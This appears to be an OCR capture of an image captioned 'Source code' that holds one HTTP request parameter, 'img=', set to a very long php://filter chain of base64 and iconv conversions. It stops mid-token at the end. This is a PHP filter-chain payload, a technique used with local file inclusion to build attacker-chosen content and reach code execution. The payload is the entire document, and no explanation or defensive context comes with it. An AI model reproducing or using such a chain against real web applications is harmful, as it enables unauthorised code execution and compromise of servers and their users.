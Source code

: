 ```http
img=php://filter/convert.base64-encode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode|convert.iconv.855.UTF7|convert.base64-decode|convert.iconv.855.UTF7|convert.base64-decode|convert.iconv.855.UTF7|convert.base64-decode|convert.quoted-printable-encode|convert.base64-encode|convert.base64-encode|convert.base64-encode|convert.quoted-printable-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.quoted-printable-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.quoted-printable-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode|convert.iconv.437.UCS-4le|convert.base64-encode|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.ba
```
